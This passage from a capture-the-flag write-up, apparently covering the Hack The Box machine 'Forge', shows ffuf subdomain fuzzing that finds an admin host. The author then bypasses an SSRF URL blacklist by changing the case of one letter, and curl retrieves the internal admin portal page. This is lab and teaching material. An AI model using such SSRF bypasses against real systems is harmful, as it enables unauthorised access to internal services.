 ```bash
 :: Header           : Host: FUZZ.forge.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response words: 18
________________________________________________

admin                   [Status: 200, Size: 27, Words: 4, Lines: 2]
```

When trying to view the page in my web browser I got the following:

![[Pasted image 20220127062708.png]]

Once again this points to SSRF, By using SSRF I will be able to make a request to this page from localhost as the request will first be routed through the server.

So, I tried using the parameter http://admin.forge.htb/ in upload from URL to no avail. I got the same message about the URL being blacklisted as before. Once again I looked at the Portswigger article section on SSRF with blacklist-based filters, I noticed the bullet point on how to bypass blacklisted URL's.

		"Obfuscating blocked strings using URL encoding or case variation"

So, I tried using http://admin.Forge.htb/ instead. By capatalizing the F I was able to bypass the blacklist and was given a URL to the uploaded file. 

When I tried to view the file on the webpage I got another error saying the image can not be displayed, but as mentioned before never trust your browser. 

So, I viewed the link returned with curl instead.

### note: the URL will be different

Response:
```bash
$curl http://forge.htb/uploads/n4xJcOgtHU0EVQmLdwgn
<!DOCTYPE html>
<html>
<head>
    <title>Admin Portal</title>
</head>
<body>
    <link rel="stylesheet" type="text/css" href="/static/css/main.css">
    <header>
            <nav>
                <h1 class=""><a href="/">Portal home</a></h1>
                <h1 class="align-right margin-right"><a href="/announcements">Announcements</a></h1>
                <h1 class="align-right"><a href="/upload">Upload image</a></h1>
            </nav>
    </header>
    <br><br><br><br>
    <br><br><br><br>
    <center><h1>Welcome Admins!</h1></center>
</body>
</html>
```
